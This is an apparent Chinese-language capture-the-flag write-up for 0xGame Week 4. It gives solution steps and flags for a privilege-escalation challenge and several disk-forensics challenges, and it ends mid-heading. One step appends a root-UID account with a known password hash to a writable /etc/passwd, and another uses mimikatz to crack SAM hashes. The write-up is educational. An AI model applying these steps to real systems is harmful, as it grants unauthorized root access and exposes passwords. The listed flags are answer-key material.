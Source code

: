 * cat flag发现无回显 `ls -l flag`证实无权限读取
* 使用 `ls -l /etc/passwd`发现拥有passwd的读写权限
* 可以利用这个来提权
* 输入 `echo "aaa:advwtv/9yU5yQ:0:0:,,,:/root:/bin/bash" >>/etc/passwd`
* （此处 `advwtv/9yU5yQ`是加盐过后的密码）
* `su aaa>password@123`然后whoami查看成功提权
* `cat flag`
* 0xGame{PyJ@i1_w1Th_P@sswd_3l3Vat3_pr1v1l3g3}

## [Week 4] FBI Open The Door!! 1

* 写脚本计算SHA256或者直接用CMD命令行 `CertUtil -hashfile fish.E01 SHA256`

```
import hashlib

def calculate_file_hash(file_path):
    sha256 = hashlib.sha256()
    with open(file_path, 'rb') as f:
        chunk = f.read()
        sha256.update(chunk)
    return sha256.hexdigest()

file_path = 'fish.E01'  # 替换为实际文件路径
hash_value = calculate_file_hash(file_path)
print(f'文件的 SHA-256 哈希值: {hash_value}')
```

* 0xGame{6d393b09ac01accf27bce07a9c07f5721b9e1e1fd5de1cc8cc1a2581a43e68f5}

## [Week 4] FBI Open The Door!! 2

* 使用Arsenal Image Mounter挂载镜像到本地
* 打开 `Windows\System32\Config`
* 用注册表编辑器**RegEdit**打开
* 在 `SYSTEM` 文件中，可以查看 `ControlSet001\Services\Tcpip\Parameters` 路径下的 `Hostname` 字段。
* 在 `SOFTWARE` 文件中，可以查看 `Microsoft\Windows NT\CurrentVersion` 路径下的 `ComputerName` 字段。
* 0xGame{F1sh1ng-s3v3r}

## [Week 4] FBI Open The Door!! 3

* 参考-[链接](https://blog.csdn.net/zhangkexin3/article/details/135865120)
* 使用mimikatz破解Config中的SAM文件和SYSTEM文件
* 管理员模式打开

![](https://seandictionary.top/wp-content/uploads/2024/10/image-33-1024x459.png)

![](https://seandictionary.top/wp-content/uploads/2024/10/image-34-1024x229.png)

* 0xGame{zaq!xsw@}

## [Week 4] FBI Open The Door!! 4
